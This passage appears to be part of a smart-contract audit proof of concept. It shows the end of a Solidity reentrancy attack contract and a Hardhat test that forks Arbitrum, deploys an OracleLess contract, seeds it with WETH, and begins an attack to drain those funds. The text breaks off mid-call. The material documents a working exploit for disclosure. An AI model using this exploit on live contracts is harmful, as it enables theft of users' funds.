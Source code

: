 ```solidity

        order.tokenOut.safeTransfer(msg.sender, order.minAmountOut + 1);
    }

    function finishAttack() external {
        oracleless.cancelOrder(fakeOrderId);
    }
}
```

```ts
import { AutomationMaster__factory, OracleLess, OracleLess__factory, ReentrancyAttack, ReentrancyAttack__factory, IERC20__factory, UniswapV3Pool__factory } from "../../typechain-types"
import { currentBlock, resetCurrentArbBlock } from "../../util/block"
import { expect } from "chai"
import { stealMoney } from "../../util/money"
import { DeployContract } from "../../util/deploy"
import { ethers } from "hardhat"
import { s } from "./scope"
import { a } from "../../util/addresser"
import { generateUniTx, generateUniTxData } from "../../util/msc"

describe("Oracle Less", () => {
    const expectedAmountOut = 5600885752n
    const minAmountOut = expectedAmountOut - 1000000n
    let orderId: bigint

    before(async () => {
        console.log("STARTING")
        await resetCurrentArbBlock(235660173)
        console.log("Testing on ARB @", (await currentBlock())?.number)

        //connect to signers
        s.signers = await ethers.getSigners()
        s.Frank = s.signers[0]
        s.Alice = s.signers[1]

        s.UniPool = UniswapV3Pool__factory.connect(s.pool, s.Frank)
        s.WETH = IERC20__factory.connect(await s.UniPool.token0(), s.Frank)
        s.USDC = IERC20__factory.connect(await s.UniPool.token1(), s.Frank)
    })

    it("Deploy", async () => {
        s.Master = await DeployContract(new AutomationMaster__factory(s.Frank), s.Frank)
        s.OracleLess = await DeployContract(new OracleLess__factory(s.Frank), s.Frank, await s.Master.getAddress(), a.permit2)

        await stealMoney(s.wethWhale, await s.Alice.getAddress(), await s.WETH.getAddress(), s.wethAmount + s.wethAmount + 1n)

        // put some funds directly in the OracleLess contract; they will be stolen
        await stealMoney(s.wethWhale, await s.OracleLess.getAddress(), await s.WETH.getAddress(), s.wethAmount)
    })

    it("Do Attack", async () => {
        const contractAddy = await s.OracleLess.getAddress();
        const beforeBalance0 = await s.WETH.balanceOf(contractAddy);
        const beforeBalance1 = await s.USDC.balanceOf(contractAddy);

        // Attacker creates an order, matching the WETH funds in the contract
        await s.WETH.connect(s.Alice).approve(await s.OracleLess.getAddress(), s.wethAmount + 1n)
        await s.OracleLess.connect(s.Alice).createOrder(
            await s.WETH.getAddress(),
```